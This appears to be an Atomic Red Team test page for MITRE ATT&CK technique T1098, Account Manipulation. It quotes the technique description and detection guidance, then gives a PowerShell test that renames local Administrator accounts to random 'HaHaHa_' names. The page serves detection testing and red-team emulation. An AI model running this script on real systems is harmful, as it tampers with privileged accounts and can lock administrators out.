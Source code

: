 # T1098 - Account Manipulation
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1098)
<blockquote>Account manipulation may aid adversaries in maintaining access to credentials and certain permission levels within an environment. Manipulation could consist of modifying permissions, modifying credentials, adding or changing permission groups, modifying account settings, or modifying how authentication is performed. In order to create or manipulate accounts, the adversary must already have sufficient permissions on systems or the domain.

Detection: Collect events that correlate with changes to account objects on systems and the domain, such as event ID 4738. (Citation: Microsoft User Modified Event) Monitor for modification of accounts in correlation with other suspicious activity. Changes may occur at unusual times or from unusual systems. Especially flag events where the subject and target accounts differ (Citation: InsiderThreat ChangeNTLM July 2017) or that include additional flags such as changing a password without knowledge of the old password. (Citation: GitHub Mimikatz Issue 92 June 2017)

Use of credentials may also occur at unusual times or to unusual systems or services and may correlate with other suspicious activity.

Platforms: Windows

Data Sources: Authentication logs, API monitoring, Windows event logs, Packet capture

Permissions Required: Administrator</blockquote>

## Atomic Tests

- [Atomic Test #1 - Admin Account Manipulate](#atomic-test-1---admin-account-manipulate)


<br/>

## Atomic Test #1 - Admin Account Manipulate
Manipulate Admin Account Name

**Supported Platforms:** Windows


#### Run it with `powershell`!
```
$x = Get-Random -Minimum 2 -Maximum 9999
$y = Get-Random -Minimum 2 -Maximum 9999
$z = Get-Random -Minimum 2 -Maximum 9999
$w = Get-Random -Minimum 2 -Maximum 9999
Write-Host HaHaHa_$x$y$z$w

$hostname = (Get-CIMInstance CIM_ComputerSystem).Name

$fmm = Get-CimInstance -ClassName win32_group -Filter "name = 'Administrators'" | Get-CimAssociatedInstance -Association win32_groupuser | Select Name

foreach($member in $fmm) {
    if($member -like "*Administrator*") {
        Rename-LocalUser -Name $member.Name -NewName "HaHaHa_$x$y$z$w"
        Write-Host "Successfully Renamed Administrator Account on" $hostname
        }
    }
```
<br/>
